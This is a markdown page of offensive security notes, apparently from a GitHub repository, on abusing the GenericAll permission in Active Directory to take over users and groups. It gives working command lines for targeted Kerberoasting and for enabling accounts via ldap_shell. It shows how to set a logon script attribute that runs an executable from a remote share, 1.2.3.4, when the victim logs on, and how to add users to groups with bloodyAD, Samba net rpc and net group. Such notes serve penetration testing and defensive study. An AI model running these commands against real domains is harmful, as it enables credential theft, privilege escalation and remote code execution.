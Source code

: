 # Abusing GenericAll (User over User)

If an user have GenericAll over an user can get user NT hash, enable/disable user, change password, and change user properties, this properties include change logon script wich allos for RCE if user connects. It is recomende to first, get the nt hash (or if not possible kerberos hash), then check if user conects frequently, and if both ways are not allowed go for changing the password.


### Shadow credentials attack (get NThash):

Check Shadow credentials seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/AddKeyCredentialLink%20(SHADOW%20CREDENTIALS).md

<br>

### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

`targetedKerberoast.py -v -d '<domain>' -u '<controlled user>' -p '<controlled user password>'`

source: https://github.com/ShutdownRepo/targetedKerberoast

<br>

### Enable user, or change properties:
#### (externally, from attacking machine)

You can enable/disable user and change other properties. The easiest way to do it is using ldap_shell externally. 

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### (internally, inside victim machine)

You can also modify those properties from inside windows machine using Set-DomainObject or Powerview.

Set-DomainObject: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 

<br>

### Set logon script (get RCE if user login):
#### (externally, from attacking machine)

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### (internally, inside victim machine)

You can also do the same internally using Powerview or Set-DomainObject.

Source: https://legacy.thehacker.recipes/a-d/movement/dacl/logon-script

<br>

### Change user password (Force Change Password):

You can change user password remotly and then use it to connect via winrm, rdp etc...

Check Force Change Password seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/ForceChangePassword.md

<br>

-------------------------------------------------

# Abusing GenericAll (User over Group)

Technically if an user have GenericAll over a grup can move user inside that group and change group properties.

### Set an user inside that group:
#### (externally, from attacking machine)
You can put users inside the that group, including your self.

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S <dc_ip>`

BloodyAD -> `bloodyAD --host '<ip>' -d '<domain>' -u '<controlled_user>' -p '<password>' add groupMember '<target_group>' '<target_user>'`

<br>

#### (internally, inside victim machine)

If you get inside the machine try it manually. If unsuccesfull you can also try with powerview.

`net group '<target_group>' <target_user> /add /domain`

Source: https://www.hackingarticles.in/genericall-active-directory-abuse/



